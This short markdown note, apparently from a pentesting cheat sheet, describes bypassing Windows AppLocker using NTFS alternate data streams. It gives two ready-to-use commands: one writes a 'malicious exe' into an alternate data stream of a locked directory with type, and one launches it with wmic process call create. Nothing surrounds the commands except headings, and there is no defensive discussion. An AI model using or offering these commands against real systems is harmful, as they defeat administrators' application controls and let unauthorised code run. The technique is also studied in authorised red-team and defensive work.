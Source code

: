 ## bypass applocker unsing alternate data streams

### copy malicious exe into the locked directory (current working directory must be one level above the locked directory)
```
type <path\to\file.exe> > .\<lockedDirectory>:<file.exe>
```

### execute
```
wmic process call create '"%CD%\<lockedDirectory>:<file.exe>"'
```

